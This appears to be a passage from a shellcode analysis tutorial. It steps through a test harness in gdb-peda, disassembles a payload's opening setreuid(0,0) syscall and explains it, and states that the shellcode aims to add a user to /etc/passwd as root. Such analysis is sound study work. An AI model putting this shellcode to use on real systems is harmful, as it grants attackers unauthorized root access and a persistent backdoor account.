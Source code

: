 ```
   0x0804840a <+38>: mov    eax,ecx
   0x0804840c <+40>: not    eax
   0x0804840e <+42>: lea    edx,[eax-0x1]
   0x08048411 <+45>: mov    eax,0x8048510
   0x08048416 <+50>: mov    DWORD PTR [esp+0x4],edx
   0x0804841a <+54>: mov    DWORD PTR [esp],eax
   0x0804841d <+57>: call   0x8048300 <printf@plt>
   0x08048422 <+62>: mov    DWORD PTR [esp+0x2c],0x804a040
   0x0804842a <+70>: mov    eax,DWORD PTR [esp+0x2c]
   0x0804842e <+74>: call   eax
   0x08048430 <+76>: mov    edi,DWORD PTR [ebp-0x4]
   0x08048433 <+79>: leave  
   0x08048434 <+80>: ret    
End of assembler dump.
gdb-peda$ break* 0x0804842e
Breakpoint 1 at 0x804842e
gdb-peda$ run 
Shellcode Length:  40
``` 
Stepping into instructions, clarifies that the shell-code starts with zeroing out ECX and EBX register, setting the syscall number in EAX which is 0x46–70 in decimal.
```
00000000  31C9              xor ecx,ecx
00000002  89CB              mov ebx,ecx
00000004  6A46              push byte +0x46
00000006  58                pop eax
00000007  CD80              int 0x80
``` 
We can identify the syscall using the following command:
```
dipsy@ubuntu:~$ cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep 70 
#define __NR_setreuid   70
#define __NR_setresgid  170
#define __NR_tgkill  270
``` 
According to the manual, setreuid syscall is used “to set real and effective user IDs of the calling process.”
```
dipsy@ubuntu:~$ man 70 setreuid
``` 
In Linux, Every process has three user IDs: the real user ID (RUID), the effective user ID (EUID), and the saved user ID (SUID). The idea is that a process can temporarily gain privileges, then abandon them when it doesn’t need them anymore, and gain them back when it needs them again.

The signature of the function is as follows:
```
int setreuid(uid_t ruid, uid_t euid);
``` 
EBX will hold the value of ruid and ECX will hold the value of euid. Note that both are set to zero. That is because we are going to add a new user most likely in the /etc/passwd file, which requires root privileges. So, to be able to edit a file with high privilege the process that wants edit it has to have appropriate privileges — AKA root privileges.
The return value is zero, which means that the syscall has been returned successfully with no problems.
```
[-----------------------------registers----------------------------]
EAX: 0x0 
EBX: 0x0 
ECX: 0x0 
EDX: 0x0 
ESI: 0x0 
EDI: 0x804a069 --> 0x786f0000 ('')
EBP: 0xbffff728 --> 0x0 
ESP: 0xbffff6ec --> 0x8048430 (<main+76>: mov    edi,DWORD PTR [ebp-0x4])
EIP: 0x804a049 --> 0x3158056a
```